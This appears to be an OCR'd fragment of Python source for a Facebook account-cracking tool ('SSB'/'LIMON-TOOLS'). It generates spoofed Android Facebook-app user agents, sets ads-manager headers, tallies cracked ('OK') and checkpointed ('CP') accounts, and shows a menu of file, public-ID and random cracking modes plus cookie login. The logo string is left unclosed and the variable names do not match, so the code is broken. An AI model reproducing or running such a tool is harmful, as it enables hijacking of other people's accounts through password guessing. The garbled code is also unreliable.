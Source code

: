     ua = f'Dalvik/2.1.0 (Linux; U; Android {random.randint(4,13)}; {random.choice(model2)} Build/QP1A.{random.randint(111111,999999)}.{random.randint(111,999)}) '+END
    return ua

def randBuildvsskj():
    END = '[FBAN/EMA;FBBV/352223683;FBAV/291.0.0.12.110;FBDV/SM-G935FD;FBLC/en_GB;FBNG/WIFI;FBMNT/NOT_METERED;FBDM/{density=1.0125}]'
    ua = f'Dalvik/2.1.0 (Linux; U; Android {random.randint(4,13)}; {random.choice(model2)} Build/QP1A.{random.randint(111111,999999)}.{random.randint(111,999)}) '+END
    return ua

sys.stdout.write('\x1b]2; SSB\x07')
S = '\033[1;37m'
A = '\x1b[38;5;208m'
R = '\x1b[38;5;46m'
F = '\x1b[38;5;48m'
Z = '\033[1;33m'
head = {'Host': 'adsmanager.facebook.com', 'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"', 'viewport-width': '980'}
logo =                                          """            
  _    ___ __  __  ___  _  _    _____ ___   ___  _    ___ 
 | |  |_ _|  \/  |/ _ \| \| |__|_   _/ _ \ / _ \| |  / __|
 | |__ | || |\/| | (_) | .` |___|| || (_) | (_) | |__\__ \
 |____|___|_|  |_|\___/|_|\_|    |_| \___/ \___/|____|___/
def clear():
    os.system("clear")
    print(logo)    
    
def result(OKs,cps):
    if len(OKs) != 0 or len(cps) != 0:
        print('\n')
        print(47*'-')
        print(' The Process has been Complete...')
        print(' TOTAL OK: %s' % str(len(oks)))
        print(' TOTAL CP: %s' % str(len(cps)))
        print(47*'-')
        input("Press enter to back SSB Menu ")
        exit()

def sarfraz():   
    os.system('clear')
    print(logo)
    print(f'[1] File Crack')
    print(f'[2] Public ID Crack')
    print(f'[3] Random Crack ')
    print(f'[4] Create File')
    print(f'[5] Login Tool')
    print(f'[6] Logout Cookie')
    print(f'[7] Remove Trash Files ')
    print(f'[8] Separate Ids')
    print(f'[9] Remove Duplicate IDs')
    print(f'[W] Join Whatsapp Group ')
    print(f'[F] Join Facebook Group ')
    print('')
    select = input('Select Menu>: ')
    if select =='1':
        method_crack()
    elif select =='2':
        exit(' This is Option Soon available ... ')
    elif select =='3':
        random_number()
    elif select =='4':
       menu()